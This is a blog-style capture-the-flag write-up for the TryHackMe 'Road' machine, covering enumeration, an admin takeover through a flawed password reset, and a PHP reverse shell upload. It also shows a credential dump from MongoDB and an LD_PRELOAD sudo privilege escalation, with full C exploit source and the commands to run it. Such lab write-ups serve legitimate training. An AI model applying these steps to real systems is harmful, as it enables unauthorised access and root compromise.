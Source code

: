 ```yaml
---
title: "[TryHackMe] Road"
author: Tri Nguyen
date: 2021-11-30 20:40:00 -0700
categories: [CTF, Write Up]
tags: [ctf, write-up, tryhackme, road, thm]
---
```


# Enumeration

## nmap

- Port 80 and 22 open

## gobuster

- No stand out dirs.

## OWASP ZAP

- Path traversal detected but I think this is false positive.

## Manual enumeration:

- Created an account: sky@thm.com | password

- If you go to your edit profile, scroll down, you will see a line, under uploading profile image saying

    > `Right now, only admin has access to this feature. Please drop an email to admin@sky.thm in case of any changes.`
    > We found the admin account's username + this maybe where we upload a reverse shell.

- Reset Password doesn't seem to check anything. I will use Burp to intercept this request and change the pw for the admin account

    > Actually I decided to edit the disabled form field on the website, replacing my account's username with the admin's username. This is easier and faster!

- Password change successfully!

- I uploaded the pentestmonkey's `php_reverse_shell.php` but I didn't know where to activate the php.

    > Clicking on the avatar wasn't working
    > Try /assets/img but our php wasn't there - might be extension checking?

- I viewed the edit profile page's source, there is a hidden url called `/v2/profileimages` which disable dir listing.

    > But we know the file's name!
    > Tried `http://10.10.86.228/v2/profileimages/php-reverse-shell.php`

- PWNED!

# Reverse Shell

- There is an account called "webdeveloper". 

- You can file the user.txt in the home directory.

- I tried enum around using the "www-data" but nothing was working.

- No .ssh folder we can use.

- `cat /etc/passwd` you will see 2 accounts: `mysql` and `mongo`

    > Try running `mysql` not working
    > However `mongo` works

- I used the commands on mongo's shell documentation.

```
show databases;
use backup; # only this one worked
show collections; # will show user as a collection
db.user.find()
```

- This will list all the backup users:

```
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

# SSH

```shell
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility

```

- Notice `env_keep+=LD_PRELOAD` is set.

- Comiple a c file with this content

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

- Then run

```shell
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
sudo LD_PRELOAD=exploit.so /usr/bin/sky_backup_utility
```